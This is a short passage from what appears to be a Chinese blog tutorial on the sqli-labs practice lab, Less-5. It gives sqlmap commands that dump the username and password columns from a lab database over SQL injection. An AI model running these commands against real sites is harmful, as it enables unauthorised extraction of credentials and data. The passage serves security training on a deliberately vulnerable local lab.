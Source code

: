 





#### 基础操作

> 
<h3>3.5、第五步：爆数据</h3>
<h4>命令：</h4>
sqlmap.py -u url -D DB -T TBL -C "COL1,COL2" --dump --batch
<hr/>
<h4>基础操作：</h4>
python sqlmap.py -u 'http://localhost:8080/sqli-labs-master/Less-5/?id=1' -D security -T users -C "username,password" --dump --batch


 <img alt="" height="785" src="https://img-blog.csdnimg.cn/b1239d1582e4458e90a904a8a09b53dc.png" width="1200"/>




#### 基础操作：

---


注：

(5-6关基本类似，就以第五关为例)
